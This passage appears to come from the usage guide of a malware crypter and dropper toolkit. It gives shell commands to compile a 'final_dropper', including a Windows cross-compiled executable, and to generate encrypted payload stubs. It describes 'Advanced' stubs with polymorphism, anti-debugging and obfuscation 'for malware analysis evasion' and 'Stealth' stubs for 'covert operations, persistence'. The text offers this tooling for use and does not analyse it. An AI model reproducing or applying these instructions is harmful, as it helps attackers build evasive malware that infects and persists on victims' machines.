 ### **4. Compile Final Executables**
```bash
# Compile the final dropper
g++ -o final_dropper final_dropper.cpp

# Compile with optimizations
g++ -O2 -s -o final_dropper final_dropper.cpp

# Compile for Windows (cross-compilation)
x86_64-w64-mingw32-g++ -o final_dropper.exe final_dropper.cpp
```

---

## 🔥 Advanced Features

### **1. Stub Types Explained**

#### **Basic Stub:**
- Simple AES-128-CTR decryption
- Smallest size (~6.5KB)
- Fastest execution
- **Best for**: Simple payloads, speed-critical applications

#### **Advanced Stub:**
- Polymorphic code generation
- Anti-debugging techniques
- String obfuscation
- **Best for**: Malware analysis evasion, security testing

#### **Stealth Stub:**
- Minimal footprint
- Enhanced stealth features
- System tray operation
- **Best for**: Covert operations, persistence

### **2. Advanced Stub Generation**
```bash
# Generate with specific features
./native_stub_generator --standalone custom_stub.cpp standalone_advanced

# Generate multiple stubs for testing
for i in {1..10}; do
    ./native_stub_generator --standalone stub_${i}.cpp standalone_basic
done

# Generate with different types
./native_stub_generator --standalone basic_stub.cpp standalone_basic
./native_stub_generator --standalone advanced_stub.cpp standalone_advanced
./native_stub_generator --standalone stealth_stub.cpp standalone_stealth
```
